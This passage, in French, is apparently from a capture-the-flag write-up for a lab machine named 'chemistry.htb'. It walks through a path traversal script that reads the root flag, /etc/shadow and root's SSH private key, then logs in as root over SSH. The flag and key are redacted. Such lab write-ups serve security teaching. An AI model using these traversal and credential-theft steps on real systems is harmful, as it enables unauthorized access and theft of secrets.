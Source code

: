 ### Récupérer le flag

En remplaçant l'entrée `file="etc/passwd"` par `file="root/root.txt"` nous pouvons facilement obtenir le flag root :

```bash
bash test.sh 
[+] Testing with /assets/../root/root.txt
	Status code --> 404
[+] Testing with /assets/../../root/root.txt
	Status code --> 404
[+] Testing with /assets/../../../root/root.txt
	Status code --> 200
284bf1[...expurgé...]b09ad9
```

### Obtenir l'accès root

Nous allons également tenter de trouver un accès au compte root, pour le challenge.

Nous avons commencer par récupérer le hash du mot de passe de root en ouvrant le fichier `/etc/shadow` mais le mot de passe semble assez solide pour ne pas tomber avec la liste **rockyou**

Nous avons ensuite cherché une clé {% include dictionary.html word="SSH" %} pour le compte root en modifiant l'entrée `file=root/.ssh/id_rsa`

```bash
bash test.sh 
[+] Testing with /assets/../root/.ssh/id_rsa
	Status code --> 404
[+] Testing with /assets/../../root/.ssh/id_rsa
	Status code --> 404
[+] Testing with /assets/../../../root/.ssh/id_rsa
	Status code --> 200
-----BEGIN OPENSSH PRIVATE KEY-----
[...expurgé...]
-----END OPENSSH PRIVATE KEY-----
```

Nous copions le contenu découvert sur notre machine, et nous lui attribuons les bons droits via la commande `chmod 600 id_rsa_root` puis nous pouvons nous connecter avec succès et récupérer le flag.

```bash
ssh -i id_rsa_root root@chemistry.htb

id
uid=0(root) gid=0(root) groups=0(root)

cat root.txt 
284bf1[...expurgé...]b09ad9
```
